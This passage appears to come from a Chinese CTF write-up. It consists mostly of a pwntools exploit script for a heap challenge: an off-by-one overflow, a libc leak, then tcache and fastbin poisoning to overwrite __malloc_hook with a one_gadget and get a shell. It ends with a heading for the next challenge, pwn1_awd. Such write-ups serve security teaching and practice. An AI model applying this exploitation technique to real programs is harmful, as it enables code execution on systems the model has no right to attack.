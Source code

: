 ```

add(1,'\x00'*0x68+p64(0xb1))#0 off by one

for i in range(4):
    add(0)
    delete(2)

show(1)
libc_base = u64(ru('\x7f')[-6:].ljust(8,'\x00'))-(0x7efc8cb1dbe0-0x7efc8c932000)
print hex(libc_base)
malloc_hook = libc_base + libc.sym['__malloc_hook']

delete(0)
for i in range(6):
    add(1)
    delete(0)
add(2)#0

delete(1)#0x30 tcache

add(1,'a'*0x60+p64(0xf0))#1

add(2)#2

delete(0)#unsorted bin
delete(1)# 0x71 fastbin

add(1,'a'*0x60+p64(0xf0)+p64(0xf0))#0 fake size
add(1,'\x00'*0x68+p64(0xf1))#1
delete(0)
add(2,'\x00'*0x70+p64(0)+p64(0x70)+p64(malloc_hook-0x33)+'\x00'*(0xe8-0x88)+p64(0X51))#0
delete(2)
delete(1)
add(1,'a'*0x68+p64(0x81))
delete(0)
add(1)
add(1,'a'*0x23+p64(libc_base+0xe6c7e))
delete(0)
sla('choice:','1')
#gdb.attach(sh)
sla('Large.',str(3))

ti()
```



## pwn1_awd

比较简单的一题，不过awd阶段靠这题还拿了不少分，挺离谱的。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E7%82%B9"></a>漏洞点
